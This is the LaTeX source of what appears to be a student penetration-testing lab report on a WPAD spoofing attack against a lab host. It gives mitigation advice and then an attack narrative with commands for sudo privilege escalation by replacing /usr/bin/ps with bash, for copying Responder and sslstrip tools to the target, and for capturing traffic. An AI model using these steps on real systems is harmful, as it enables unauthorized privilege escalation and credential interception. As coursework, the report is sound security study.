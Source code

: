 \documentclass[notitlepage]{article}
\begin{document}
    \subsubsection*{Mitigation or Resolution Strategy}
    One way to mitigate this attack would be to disable WPAD services. If this is not a feasable solution, then all web traffic must be encrypted using HTTPS to ensure
    intercepted data is not plaintext.
		



\section{Attack Narrative}

    \subsection{Initial Checks}
    Before we used responder, it was important to first use tcpdump to give some clues
    as to whether responder would work at all. To begin, we connected to devbox as usual
    and then used the previously found exploit and changed the command that was running ps
    to bash as follows.
   \begin{verbatim}
cp /usr/bin/bash /usr/bin/ps
sudo -u#-1 ps   
   \end{verbatim}
    Once we had access, we can then scp over the ssl-extras directory and use the tcpdump as follows:
\begin{verbatim}
proxychains scp -r sslstrip-extras l.strauss@devbox.artstailor.com:
proxychains scp -r /usr/share/responder l.struass@devbox.artstailor.com:
sudo ./tcpdump -i ens32 -w ~/capture.pcap -Z l.strauss
\end{verbatim}
    After examining the capture.pcap file using wireshark, the following observation was made\\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex100/tcpdump\_1]}\\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex100/tcpdump\_2]}\\
    Which signified that spoofing wpad might bear fruit as expected
\end{document}

